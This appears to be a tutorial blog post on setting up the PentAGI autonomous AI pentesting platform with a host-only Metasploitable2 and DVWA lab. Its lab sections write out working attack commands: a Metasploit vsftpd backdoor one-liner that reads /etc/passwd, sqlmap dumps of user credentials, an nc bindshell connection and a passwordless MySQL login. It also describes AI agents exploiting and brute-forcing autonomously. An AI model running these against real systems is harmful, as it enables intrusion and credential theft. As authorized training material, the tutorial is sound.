



PentAGI Penetration Testing Lab Setup: Complete Beginner Tutorial
If you've been searching for the most advanced AI pentesting tool of 2026, your search ends here. PentAGI — Penetration Testing Artificial General Intelligence — is a fully autonomous, open-source AI agent platform that has fundamentally changed how penetration testing is performed. Built by VXControl and launched in early 2025, PentAGI is not just another scanning tool — it's an intelligent multi-agent system that plans, executes, and reports an entire pentest workflow with minimal human input.
What makes Pentagi penetration testing genuinely different from every other tool in the market is its architecture. At its core, PentAGI coordinates 13 specialized AI agents — including a Researcher for OSINT and intelligence gathering, a Developer for writing custom exploit scripts, and an Executor for running and chaining security tools — all working together as a synchronized team, just like a real red team would.
Under the hood, PentAGI integrates 200+ professional-grade security tools — Nmap, Metasploit, sqlmap, Nikto, Masscan, and more — all running inside a fully sandboxed Docker environment. Nothing touches your host system. You simply define a target and context, and the AI handles every phase: automated reconnaissance, vulnerability identification, controlled exploitation, and professional report generation — end to end.
Why PentAGI Stands Apart from Traditional Tools
| Feature | Traditional Tools | PentAGI |
|---|---|---|
| Automation level | Manual command chaining | Fully autonomous multi-agent AI |
| Tools integrated | Single-purpose | 200+ tools unified |
| Intelligence | Static output | Contextual AI analysis + memory |
| Reporting | Manual compilation | Auto-generated structured reports |
| LLM support | None | GPT-4.1, Claude, Gemini, Ollama |
| Environment | Host-level risk | Sandboxed Docker containers |
| Memory | No persistence | Neo4j knowledge graph |
By the end of this guide, you will have PentAGI fully installed on Kali Linux, a safe isolated lab environment running, and a complete understanding of how to run a real pentest flow — from first scan to final report — using one of the most powerful automated reconnaissance platforms available today.
⚠️ Legal Notice: Only use PentAGI against systems you own or have explicit written authorization to test. Unauthorized scanning or exploitation is a criminal offense in most countries. This tutorial is strictly for ethical, legal, and educational use.
Introduction
This Pentagi tutorial is your end-to-end guide to building a fully isolated penetration testing lab setup, installing PentAGI, and running your first real-world test — all safely inside a virtual network that can never touch the outside world. Designed for beginners, aspiring pentesters, and ethical hackers, every step is verified, practical, and legally safe.
⚠️ Legal & Ethical Notice: Every technique in this guide is for educational and authorized use only. Never run scans, reconnaissance, or exploits against any system you do not personally own or have explicit written authorization to test. Unauthorized hacking is a criminal offense under laws including the CFAA (US), Computer Misuse Act (UK), and IT Act (India)..
What Is PentAGI?
PentAGI (Penetration Testing Artificial General Intelligence) is a fully autonomous, open-source AI platform for security testing developed by VXControl. Instead of manually chaining tools together, PentAGI deploys a team of 13 specialized AI agents that handle reconnaissance, vulnerability scanning, exploitation planning, and report generation as a coordinated workflow — like having a virtual red team available 24/7.
Real-World Use Cases
By completing this tutorial you will be able to:
- Automated recon — Full port scanning, OS detection, service fingerprinting, OSINT gathering.
- Vulnerability identification — Cross-referencing live service versions against CVE databases in real-time.
- Exploitation workflows — Orchestrating Metasploit and custom scripts against confirmed vulnerabilities.
- Security reporting — Auto-generating structured reports with CVSS scores, PoC evidence, and remediation steps.
Part 1 — Lab Architecture Design
Why Isolation Is Mandatory
PentAGI's AI agents launch port scanners, exploit frameworks, and credential attacks autonomously and at machine speed. If your lab is connected to the internet, your home network, or your organization's LAN — those tools will reach beyond your intended target. That means accidentally scanning your ISP, triggering abuse reports, or attacking neighbors' devices. A host-only network creates a private, air-gapped bubble where traffic physically cannot leave your machine.

IP Addressing Plan
| Machine | Role | IP Address |
|---|---|---|
| VirtualBox Host-Only Gateway | Network gateway | 192.168.56.1 |
| Kali Linux VM | Attacker / PentAGI host | 192.168.56.10 |
| Metasploitable2 VM | Vulnerable target (network) | 192.168.56.101 |
| DVWA (Docker on Kali) | Vulnerable target (web app) | 192.168.56.10:8080 |
Part 2 — System Requirements
Hardware Requirements
| Resource | Minimum | Recommended |
|---|---|---|
| CPU | 4 cores | 6–8 cores |
| RAM | 8 GB total | 16 GB+ |
| Disk | 60 GB free | 100+ GB SSD |
| Virtualization | VT-x/AMD-V enabled in BIOS | Required |
RAM allocation breakdown:
- Kali Linux VM (with PentAGI): 4–6 GB
- Metasploitable2 VM: 512 MB
- Host OS: 2 GB minimum
RAM allocation breakdown:
- VirtualBox 7.x (free) or VMware Workstation Pro.
- Kali Linux ISO (latest, from kali.org).
- Metasploitable2 VMDK (from SourceForge).
- Docker and Docker Compose (installed on Kali).
- An LLM API key — OpenAI, Anthropic, Google Gemini, or local Ollama (free).
OS Compatibility
PentAGI runs on Linux, macOS, and Windows — but Kali Linux is strongly recommended for this tutorial as it provides the full pentesting tool ecosystem alongside PentAGI.
Part 3 — VirtualBox Setup
Step 1 — Install VirtualBox
Download from virtualbox.org and install On Windows:
Run the installer → Accept defaults → Install VirtualBox Network Adapter when prompted
Step 2 — Create the Host-Only Network
VirtualBox Menu → File → Tools → Network Manager
Click [Create]
Adapter Tab:
IPv4 Address: 192.168.56.1
IPv4 Network Mask: 255.255.255.0
DHCP Server Tab:
☑ Enable Server
Server Address: 192.168.56.100
Lower Address Bound: 192.168.56.101
Upper Address Bound: 192.168.56.200
Click [Apply]
This creates vboxnet0 — your isolated private network.
Part 4 — Kali Linux VM Setup (Attacker Machine)
Step 1 — Download Kali Linux
Go to kali.org/get-kali → download the Installer ISO (64-bit, ~4 GB).
Step 2 — Create Kali VM in VirtualBox
VirtualBox → [New] Name: Kali-Attacker Type: Linux Version: Debian (64-bit) RAM: 4096 MB (4 GB minimum, 6144 MB recommended) CPU: 2–4 vCPUs Disk: 50 GB (dynamically allocated)
Step 3 — Configure Network Adapters
Kali VM → Settings → Network
Adapter 1:
☑ Enable
Attached to: NAT ← For internet (downloading tools)
Adapter 2:
☑ Enable
Attached to: Host-only Adapter
Name: vboxnet0 ← For attacking targets
ℹ️ Two adapters: NAT for internet access during setup; Host-Only for lab traffic. Once PentAGI is installed, you can disable NAT for full isolation.
Step 4 — Install Kali Linux
- Mount the ISO: VM Settings → Storage → Empty optical drive → Choose ISO file.
- Start the VM → Select Graphical Install.
- Follow the installer (language, timezone, disk partitioning — use defaults).
- Create a strong user password.
- Complete installation → reboot .
Step 5 — Post-Install Setup
Bash
# Update everything
sudo apt update && sudo apt full-upgrade -y
# Install VirtualBox Guest Additions (better screen/clipboard)
sudo apt install -y virtualbox-guest-x11
sudo reboot
# Verify both network interfaces are active
ip addr show
# Should see: eth0 (NAT) and eth1 (Host-Only 192.168.56.x)
Step 6 — Assign Static IP to eth1/h4>
Bash
sudo nano /etc/network/interfaces
Bash
sudo nano /etc/network/interfaces
Add:
auto eth1 iface eth1 inet static address 192.168.56.10 netmask 255.255.255.0
Bash
sudo systemctl restart networking
ip addr show eth1
# Should display: inet 192.168.56.10/24
Part 5 — Metasploitable2 Setup (Target Machine)
Step 1 — Download Metasploitable2
Go to SourceForge → download metasploitable-linux-2.0.0.zip (~800 MB).
Step 2 — Extract
Windows: Right-click → Extract All Linux: unzip metasploitable-linux-2.0.0.zip
Step 3 — Create VM in VirtualBox
VirtualBox → [New]
Name: Metasploitable2-Target
Type: Linux
Version: Ubuntu (64-bit)
RAM: 512 MB
Hard Disk screen:
○ Use an existing virtual hard disk file
→ Browse → select Metasploitable.vmdk
Click [Create]
Step 4 — Configure Network (CRITICAL)
Metasploitable2 VM → Settings → Network
Adapter 1:
☑ Enable
Attached to: Host-only Adapter
Name: vboxnet0
⚠️ DO NOT enable NAT or Bridged adapter
This VM must NEVER have internet access
Step 5 — Boot and Verify
Start the VM Login:
- Username: msfadmin
- Password: msfadmin
Bash
# Check its IP (should be from DHCP: 192.168.56.101)
ifconfig eth0
# Test connectivity from Kali (in Kali terminal)
ping 192.168.56.101 -c 4
Part 6 — DVWA Setup (Web App Target)
Run DVWA as a Docker container directly on Kali — no extra VM needed.
Bash
# Install Docker Properly
sudo apt install -y docker.io
sudo systemctl start docker
sudo systemctl enable docker
docker --version
# Pull and run DVWA
docker pull vulnerables/web-dvwa
docker run -d \
--name dvwa \
-p 8080:80 \
--restart unless-stopped \
vulnerables/web-dvwa
# Verify it's running
docker ps
Access: http://localhost:8080
Alternative: Use Lightweight Lab (Smart Move)
Instead of fighting this:
Bash
docker run -d -p 3000:3000 bkimminich/juice-shop
Inside Kali browser:
http://localhost:3000 OR from host (if configured properly): http://:3000
First-time configuration:
- Login: admin / password
- Scroll to the bottom → click Create / Reset Database.
- Login again with same credentials.
- Navigate to DVWA Security → set level to Low.
Part 7 — PentAGI Installation on Kali Linux
Step 1 — Install Docker and Docker Compose
Bash
# Install dependencies
sudo apt install -y docker.io docker-compose curl wget unzip
# Enable and start Docker
sudo systemctl enable docker
sudo systemctl start docker
# Add your user to the docker group
sudo usermod -aG docker $USER
newgrp docker
# Confirm Docker works
docker --version
docker compose version
docker ps
Step 2 — Create PentAGI Directory
Bash
mkdir -p ~/pentagi && cd ~/pentagi
Step 3 — Download PentAGI Installer
Bash
# Linux 64-bit (amd64)
wget -O installer.zip \
https://pentagi.com/downloads/linux/amd64/installer-latest.zip
# Extract
unzip installer.zip
# Make executable
chmod +x ./installer
Step 4 — Run the Interactive Installer
Bash
sudo ./installer
The installer runs 6 automated steps in the terminal UI:
PentAGI Interactive Installer ══════════════════════════════ [1/6] System Checks ✓ Docker version: 27.x.x ✓ Docker Compose: v2.x.x ✓ CPU cores: 4 ✓ Available RAM: 6.0 GB ✓ Disk space: 45 GB free ✓ Port 8443: available ✓ Port 5432: available ✓ Port 7687: available [2/6] Environment Setup → Creating .env configuration... → Generating secure random credentials... ✓ .env file created [3/6] LLM Provider Configuration Select your AI provider: [1] OpenAI (GPT-4.1, o-series) [2] Anthropic (Claude) [3] Google Gemini [4] AWS Bedrock [5] Ollama (local, free, private) ← Recommended for lab [6] Custom OpenAI-compatible Enter choice [1-6]: _ [4/6] Search Engine Configuration → DuckDuckGo: Enabled (no key required) Tavily API key (optional, press ENTER to skip): _ [5/6] Security Hardening → Auto-generating PostgreSQL password... → Auto-generating Neo4j password... → Generating cookie signing salt... → Setting admin credentials... ✓ Security configuration complete [6/6] Deployment → Pulling Docker images (this may take 5–10 min)... → Starting all services... ✓ All services running ══════════════════════════════ PentAGI is ready! URL: https://localhost:8443 Email: admin@pentagi.com Password: admin (CHANGE THIS NOW) ══════════════════════════════
Step 5 — Verify Installation
Bash
# Check all containers are healthy
docker compose ps
Step 6 — Access the UI
Open Kali's browser:
https://localhost:8443
Your browser shows an SSL warning — this is normal (self-signed certificate). Click Advanced → Proceed to localhost.
Login:
- Email: admin@pentagi.com
- Password: admin
Immediately change the default password:
Profile icon (top right) → Security → Change Password
Part 8 — Configuration
Manual .env Configuration
Bash
cd ~/pentagi
nano .env
LLM API Keys
# OpenAI OPEN_AI_KEY=sk-your_openai_key_here # Anthropic ANTHROPIC_API_KEY=sk-ant-your_key_here # Google Gemini GEMINI_API_KEY=your_gemini_key_here # Ollama (free, local — best for privacy) OLLAMA_SERVER_URL=http://host.docker.internal:11434 OLLAMA_SERVER_MODEL=llama3.1:8b-instruct-q8_0
Setting up Ollama (free local LLM):
Bash
# Install Ollama on Kali
curl -fsSL https://ollama.ai/install.sh | sh
# Pull a capable model (requires ~5 GB disk)
ollama pull llama3.1:8b-instruct-q8_0
# Verify it works
ollama run llama3.1:8b-instruct-q8_0 "Hello, are you working?"
Search Engine Configuration
# DuckDuckGo — enabled by default, no key required DUCKDUCKGO_ENABLED=true # Tavily — deeper OSINT (optional) TAVILY_API_KEY=tvly-your_key_here
Apply Configuration Changes
Bash
docker compose down
docker compose up -d
docker compose ps
Part 9 — Basic Usage (Beginner Level)
Left Sidebar: ├── Flows → Create and manage pentest sessions ├── Assistants → Custom AI personas with pre-configured behavior ├── Reports → View and export completed test reports ├── Settings → System configuration, API keys └── Profile → Password and account management
Creating Your First Flow
- Click Flows → + New Flow
- Fill in:
- In the Objective field, type a simple starting task:
- Click Start Flow
Name: My First Test Description: Lab practice on authorized Metasploitable2 VM
Run a basic port scan on 192.168.56.101. Show me all open ports and the service running on each. Explain what each service is and why it might be interesting from a security perspective.
Understanding Basic Output
Expand the flow to see the task tree:
Flow: My First Test [Active]
└── Task 1: Port Scan (Nmap) [Completed ✓]
├── Action: nmap -sV -sC 192.168.56.101
├── Duration: 47 seconds
└── Output: [click to expand full Nmap results]
Below the task tree, you'll see the AI annotation layer — a plain-English summary of what PentAGI found and why each open port matters. This is the core value: raw scan output + contextual interpretation combined.
Part 10 — Practical Hands-On Lab
Lab 1 — Reconnaissance on Metasploitable2
Go to Flows → + New Flow. Set the target and paste this objective:
Perform full reconnaissance on 192.168.56.101. 1. Run a complete Nmap scan: - Scan all 65535 ports - Detect service versions (-sV) - Run default scripts (-sC) - Perform OS fingerprinting (-O) 2. For each discovered service: - Identify the software name and version - Note the port and protocol - Flag any outdated or potentially vulnerable versions 3. Run the Nmap vuln script category: nmap --script vuln 192.168.56.101 4. Summarize all findings in a structured table: Port | Service | Version | Risk Level | Notes
Click Start Flow and watch the agents work.
Expected Nmap output PentAGI parses:
PORT STATE SERVICE VERSION 21/tcp open ftp vsftpd 2.3.4 22/tcp open ssh OpenSSH 4.7p1 Debian 23/tcp open telnet Linux telnetd 25/tcp open smtp Postfix smtpd 80/tcp open http Apache httpd 2.2.8 111/tcp open rpcbind 2 (RPC #100000) 139/tcp open netbios-ssn Samba smbd 3.0.20 445/tcp open netbios-ssn Samba smbd 3.0.20 512/tcp open exec netkit-rsh rexecd 513/tcp open login OpenBSD or Solaris rlogind 514/tcp open shell Netkit rshd 1099/tcp open java-rmi GNU Classpath grmiregistry 1524/tcp open bindshell Metasploitable root shell 2049/tcp open nfs 2-4 (RPC #100003) 3306/tcp open mysql MySQL 5.0.51a-3ubuntu5 5432/tcp open postgresql PostgreSQL DB 8.3.0-8.3.7 5900/tcp open vnc VNC (protocol 3.3) 6000/tcp open X11 (access denied) 6667/tcp open irc UnrealIRCd 8180/tcp open http Apache Tomcat/Coyote JSP engine OS: Linux 2.6.X
What PentAGI's AI flags automatically:
vsftpd 2.3.4→ ⚠️ Known backdoor (CVE-2011-2523, CVSS 10.0).Samba 3.0.20→ ⚠️ Username map script injection (CVE-2007-2447, CVSS 9.3).Port 1524→ ⚠️ Bindshell — direct root shell listener, no exploit needed.MySQL 5.0.51a→ ⚠️ Likely empty root password.UnrealIRCd→ ⚠️ Backdoor version (CVE-2010-2075, CVSS 7.5).
Lab 2 — Vulnerability Scanning on DVWA
Create a new flow targeting the web app:
Perform a web application security assessment on http://localhost:8080/dvwa/ Authentication: admin / password (security level: low) Session cookie will need to be provided. Test the following vulnerability categories: 1. SQL Injection - Target: /dvwa/vulnerabilities/sqli/?id=1&Submit=Submit - Use sqlmap to enumerate databases, tables, and dump the users table 2. Command Injection - Target: /dvwa/vulnerabilities/exec/ - Test for OS command injection in the ping input field - Attempt to read /etc/passwd using injection 3. Directory/File Enumeration - Use gobuster to discover hidden files and directories - Wordlist: /usr/share/wordlists/dirb/common.txt 4. Cross-Site Scripting (XSS) - Test reflected XSS on all input fields - Test stored XSS on message/comment fields Report all findings with: - Vulnerability type - Affected URL and parameter - Payload used as proof-of-concept - Risk rating (Critical/High/Medium/Low)
What PentAGI runs internally:
Bash
# Directory enumeration
gobuster dir \
-u http://localhost:8080/dvwa/ \
-w /usr/share/wordlists/dirb/common.txt \
-o gobuster_results.txt
# SQL injection
sqlmap \
-u "http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=; security=low" \
--dbs \
--batch \
--random-agent
# After DB enumeration:
sqlmap \
-u "http://localhost:8080/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="PHPSESSID=; security=low" \
-D dvwa -T users --dump --batch
Expected sqlmap output PentAGI shows you:
[*] Database: dvwa [*] Table: users +----+----------+---------------------------------------------+ | id | user | password | +----+----------+---------------------------------------------+ | 1 | admin | 5f4dcc3b5aa765d61d8327deb882cf99 (password) | | 2 | gordonb | e99a18c428cb38d5f260853678922e03 (abc123) | | 3 | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b (charley) | | 4 | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein) | +----+----------+---------------------------------------------+
Lab 3 — Exploitation (Lab Environment Only)
Create a new flow for controlled exploitation:
Exploit the following confirmed vulnerabilities on 192.168.56.101. This is an authorized lab environment (Metasploitable2). 1. Exploit vsftpd 2.3.4 backdoor (CVE-2011-2523): - Use Metasploit module: exploit/unix/ftp/vsftpd_234_backdoor - RHOST: 192.168.56.101 - If shell obtained: run "id", "whoami", "uname -a" 2. Access MySQL without credentials: - Connect: mysql -h 192.168.56.101 -u root - If connected: SHOW DATABASES; SELECT user,password FROM mysql.user; 3. Access the bindshell on port 1524: - Connect: nc 192.168.56.101 1524 - Run basic enumeration commands For each successful exploitation, record: - Exact command used - Output received - Access level achieved (user/root) - Screenshot/log evidence
PentAGI internally orchestrates:
Bash
# vsftpd backdoor via Metasploit
msfconsole -q -x "
use exploit/unix/ftp/vsftpd_234_backdoor;
set RHOST 192.168.56.101;
set RPORT 21;
run;
id;
uname -a;
cat /etc/passwd;
exit
"
Expected shell output:
[*] Banner: 220 (vsFTPd 2.3.4) [*] USER: 331 Please specify the password. [+] Backdoor service has been spawned, handling... [+] UID: uid=0(root) gid=0(root) [*] Command shell session 1 opened (192.168.56.10:4444 → 192.168.56.101:6200) id uid=0(root) gid=0(root) uname -a Linux metasploitable 2.6.24-16-server #1 SMP
Technical explanation: vsftpd 2.3.4 contains a deliberately planted backdoor —
not a bug. When a
username containing :)
is sent, the daemon spawns /bin/sh bound to port 6200 with root (UID
0) privileges. No password,
no exploit chain —
direct root. This is why version management matters enormously.
Part 11 — Pentesting Workflow with PentAGI
Phase 1 — RECON (Reconnaissance)
What can we find out about the target?
PentAGI starts by collecting information — like a detective doing background research before taking action.
- Scans which ports/doors are open.
- Identifies what operating system is running.
- Gathers public information (OSINT).
- Maps the website structure.
Phase 2 — SCAN (Search for Weaknesses)
Where are the vulnerabilities?
Now PentAGI runs professional hacking tools automatically to probe every discovered service for known weaknesses.
- Nikto — checks the web server for issues.
- sqlmap — tests for database injection flaws.
- gobuster — discovers hidden pages and folders.
- NSE scripts + OpenVAS — deep vulnerability checks.
Phase 3 — ANALYZE (Think and Plan)
How serious are these vulnerabilities?
This is where PentAGI's AI brain processes all the scan results and builds an attack strategy.
- Looks up CVEs (known vulnerability records) for every finding.
- Scores each vulnerability using CVSS (low / medium / high / critical).
- Maps how vulnerabilities connect to each other to find deeper attack paths.
Phase 4 — EXPLOIT (Attack — Split Between AI and You)
Can we actually break in?
This phase has two tracks:
| 🤖 PentAGI Does | 👤 You Do (Manual Mastery) |
|---|---|
| Known CVE exploits | Business logic flaws |
| Automated Metasploit attacks | Authentication bypass |
| Captures shell access | Chained zero-days |
| Logs proof-of-concept | Custom payloads |
Simple rule: If there is a known published exploit → PentAGI handles it. If it requires creative thinking → You handle it.
Phase 5 — REPORT (Document Everything)
What did we find and how do we fix it?
PentAGI automatically writes a full professional report — no manual writing needed.
- HTML — tests for database injection flaws.
- JSON — for developers and integrations.
- MD — for documentation platforms.
The report includes:
- Executive summary (for managers/clients).
- Full CVE findings table.
- Severity ratings.
- Fix recommendations

The Flow at a Glance
RECON ──PentAGI──► SCAN ──PentAGI──► ANALYZE ──PentAGI──► EXPLOIT ──PentAGI──► REPORT │ │ │ AI: Known CVEs │ Full auto Full auto Full auto YOU: Logic/0-day Full auto
💡 The Key Idea
PentAGI does the repetitive, time-consuming 80% automatically.
You focus on the creative,
complex
20% that only humans can do.
Where PentAGI Handles Everything
- Initial network and web reconnaissance.
- Version detection and CVE cross-referencing.
- Known-exploit execution via Metasploit.
- Credential brute-forcing against common services.
- Report generation with CVSS scores and remediation.
Where You Must Add Manual Work
- Understanding why a vulnerability exists (not just that it does).
- Business logic and application-flow attacks.
- Bypassing hardened WAFs, EDRs, and modern security controls.
- Complex post-exploitation and lateral movement.
- Client communication and risk contextualization.
Part 12 — Generating and Exporting the Report
Once a flow shows Completed status:
- Flows → Select your flow → Export
- Choose format: HTML (for sharing), JSON (for integrations), Markdown (for documentation/blogs)
Report structure overview:
═══════════════════════════════════════════════════════ PENTAGI PENETRATION TEST REPORT Target: 192.168.56.101 (Metasploitable2) Date: April 16, 2026 Risk Rating: ██████████ CRITICAL ═══════════════════════════════════════════════════════ EXECUTIVE SUMMARY Critical: 3 findings High: 2 findings Medium: 2 findings Low: 1 finding FINDINGS [CRIT-001] vsftpd 2.3.4 Backdoor CVE-2011-2523 | CVSS: 10.0 | Port 21 Impact: Unauthenticated remote root shell PoC: [command output attached] Fix: Upgrade vsftpd to 3.0.5+; verify binary checksums [CRIT-002] MySQL Empty Root Password CVE: N/A | CVSS: 9.8 | Port 3306 Impact: Full unauthenticated database access PoC: mysql -h 192.168.56.101 -u root (no password) Fix: Set root password; bind MySQL to 127.0.0.1 only [CRIT-003] Samba Username Map Injection CVE-2007-2447 | CVSS: 9.3 | Port 139/445 Impact: Unauthenticated remote root shell PoC: [Metasploit output attached] Fix: Upgrade Samba; remove 'username map script' option [HIGH-001] Bindshell on Port 1524 CVE: N/A | CVSS: 8.8 Impact: Direct root shell — no exploit required Fix: Disable/firewall port 1524 immediately [HIGH-002] SQL Injection (DVWA) CVE: N/A | CVSS: 8.8 | /dvwa/vulnerabilities/sqli/ Impact: Full database dump including user credentials Fix: Use parameterized queries / prepared statements APPENDIX Full tool output, Nmap scans, sqlmap logs ═══════════════════════════════════════════════════════
Part 13 — Common Mistakes
Mistake 1 — Misconfigured Network Adapters
❌ Wrong: Metasploitable2 on Bridged Adapter
→ It joins your real network and gets a real IP
→ Anyone on your LAN can access it (dangerously open)
✓ Correct: Metasploitable2 on Host-Only Adapter ONLY
→ Completely isolated, invisible to external networks
Mistake 2 — Running Tools on Unauthorized Networks
Even accidentally pointing PentAGI at your router's IP (e.g., 192.168.1.1) violates terms of service and potentially law. Always double-check your target IP before launching any flow.
Bash
# Before every scan, verify your target is your lab VM:
ping 192.168.56.101 # Should respond
traceroute 192.168.56.101 # Should show 1 hop (direct, no internet routing)
Mistake 3 — Trusting AI Output Without Validation
PentAGI can generate false positives — flagging a vulnerability that isn't actually exploitable in context. Never include a finding in a professional report without manually reproducing it. The AI is a starting point, not a final verdict.
Mistake 4 — Missing LLM API Key or Wrong Format
# Wrong — quotes around the key cause parse errors OPEN_AI_KEY="sk-your_key_here" # Correct — no quotes OPEN_AI_KEY=sk-your_key_here
Mistake 5 — Forgetting to Restart After .env Changes
Bash
# After any .env edit, always:
docker compose down && docker compose up -d
Part 14 — Useful Management Commands
Bash
# Navigate to PentAGI directory
cd ~/pentagi
# Start all services
docker compose up -d
# Stop all services (data preserved)
docker compose down
# Full reset (wipes all data)
docker compose down -v
# Live log stream
docker compose logs -f pentagi
# Check container health
docker compose ps
# Restart just the backend
docker compose restart pentagi
# Check resource usage
docker stats
# Check for port conflicts
sudo ss -tlnp | grep -E ':(8443|5432|7687|6379)'
# Helpful aliases — add to ~/.bashrc
echo 'alias pentagi-up="cd ~/pentagi && docker compose up -d"' >> ~/.bashrc
echo 'alias pentagi-down="cd ~/pentagi && docker compose down"' >> ~/.bashrc
echo 'alias pentagi-logs="cd ~/pentagi && docker compose logs -f pentagi"' >> ~/.bashrc
source ~/.bashrc
Part 15 — Troubleshooting
| Error | Cause | Fix |
|---|---|---|
| permission denied: docker.sock | User not in docker group | sudo usermod -aG docker $USER && newgrp docker |
| Container shows unhealthy | Invalid API key | Check .env — no quotes, no extra spaces |
| Flow stuck indefinitely | Target unreachable | ping 192.168.56.101 — verify host-only adapter |
| port already in use: 8443 | Conflict with another service | sudo ss -tlnp | grep 8443 → kill process |
| SSL warning in browser | Self-signed cert | Click Advanced → Proceed (normal behavior) |
| No output from flow | Bad objective prompt | Rewrite with specific IPs, ports, and tool names |
| Metasploitable2 no IP | DHCP not configured | ifconfig eth0 192.168.56.101 netmask 255.255.255.0
|
| docker compose: command not found | Wrong package installed | Use docker compose (v2) not
docker-compose (v1)
|
Part 16 — Advanced Use Cases
Automation via REST API
PentAGI exposes a full REST and GraphQL API for programmatic control:
Bash
import requests
# Start a new pentest flow via API
response = requests.post(
"https://localhost:8443/api/v1/flows",
headers={"Authorization": "Bearer YOUR_API_TOKEN"},
json={
"name": "Automated Daily Scan",
"description": "Scheduled vulnerability check",
"prompt": "Run a full vulnerability scan on 192.168.56.101 and report Critical and High findings only."
},
verify=False
)
print(response.json())
Custom Assistant Personas
In Assistants → + New Assistant, create specialized agents:
Name: Web App Specialist System Prompt: You are a web application security expert. Focus exclusively on OWASP Top 10 vulnerabilities. For every finding, provide: 1. The exact vulnerable URL and parameter 2. The payload used 3. OWASP category 4. CWE ID 5. Remediation code example
Chaining Multiple Flows
For large scopes (e.g., multiple subnets), create sequential flows:
Flow 1: Recon 192.168.56.0/24 → Export JSON Flow 2: Deep scan flagged hosts → Export JSON Flow 3: Exploitation of confirmed vulns → Final report
Security & Legal Warning

Conclusion
PentAGI is not just another pentesting tool — it is a fundamental shift in how security professionals approach automated reconnaissance, vulnerability detection, and ethical hacking workflows.
If you followed this tutorial from start to finish, you now have a fully working AI pentesting tool running on Kali Linux, a safe isolated lab with Metasploitable2 and DVWA, and hands-on experience running a complete automated pentest flow — from reconnaissance all the way to professional report generation.
Your Next Steps After This Tutorial
| Step | Action | Practice / Benefit |
|---|---|---|
| 1 | Run 5 full PentAGI flows | Test against Metasploitable2 and DVWA before moving to new targets |
| 2 | Learn Nmap manually | Understand what PentAGI automates under the hood |
| 3 | Master Burp Suite | Deep web app testing that automated scanners can't fully replicate |
| 4 | Study Metasploit | Understand the exploitation framework PentAGI orchestrates |
| 5 | Get certified | eJPT → CEH → OSCP progression for career credibility |
⚠️ Final Legal Reminder: Everything covered in this tutorial is strictly for ethical, authorized, and educational use. Always obtain explicit written permission before testing any system you do not personally own. Unauthorized scanning or exploitation is a criminal offense under the CFAA (US), Computer Misuse Act (UK), IT Act Section 66 (India), and EU cybercrime directives.
